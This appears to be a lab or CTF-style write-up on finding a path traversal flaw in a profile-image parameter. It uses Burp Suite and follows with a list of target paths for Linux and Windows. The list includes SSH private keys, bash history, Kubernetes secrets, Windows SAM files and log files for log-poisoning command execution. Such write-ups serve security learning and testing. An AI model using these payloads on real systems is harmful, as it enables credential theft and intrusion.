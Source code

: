 # Path traversal

Looking at the URL of the profile picture in the Profile folder, we see that this image is displayed by calling the image name directly in the folder. So think of a possible loophole that is Path Traversal
![image](https://user-images.githubusercontent.com/63194321/132466602-3bee35bd-62d8-4ab1-b019-ec828afa44f3.png)


### Solution

__Use Burp Suite to make work easy__


__B1. We use Burp Suite to intercept the request to get the avatar image in the Profile section and send it to the Burp Repeater.__

![image](https://user-images.githubusercontent.com/63194321/132466638-cdd3d4df-b4a4-475a-b9a1-0f884eab281e.png)


__B2. We will change the value of the variable "images" instead of returning the name of an image, we can return an arbitrary path. (Depending on how the directory is arranged, the directory path may be different.)__

 ![image](https://user-images.githubusercontent.com/63194321/132466676-c4475297-48d7-4491-b214-c8be26e99ec0.png)

Observe that the returned result is not an image file anymore, but instead will be a result of the etc/passwd file.

### Exploit

Once we have identified this as a Path Traversal vulnerability, we can use payloads depending on the backend to deploy appropriately. We can access and read the data depending on the operating system as follows.

#### •	Linux:

`/etc/issue`

`/etc/passwd`

`/etc/mysql/my.cnf`

`/proc/net/tcp`

`/home/$USER/.bash_history`

`/home/$USER/.ssh/id_rsa`

`/run/secrets/kubernetes.io/serviceaccount/certificate`

`/var/run/secrets/kubernetes.io/serviceaccount`

#### •	Windows

`c:/boot.ini`

`c:/inetpub/logs/logfiles`

`c:/inetpub/wwwroot/global.asa`

`c:/sysprep.inf`

`c:/sysprep.xml`

`c:/system volume information/wpsettings.dat`

`c:/system32/inetsrv/metabase.xml`

`c:/unattend.txt`

`c:/windows/repair/sam`

`c:/windows/repair/system`

Besides, the following log files are controllable and can be included with an evil payload to achieve a command execution

`/var/log/apache/access.log`

`/var/log/apache/error.log`

`/var/log/httpd/error_log`

`/usr/local/apache/log/error_log`

`/usr/local/apache2/log/error_log`

`/var/log/vsftpd.log`

`/var/log/sshd.log`

`/var/log/mail`

Reference
•	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversa
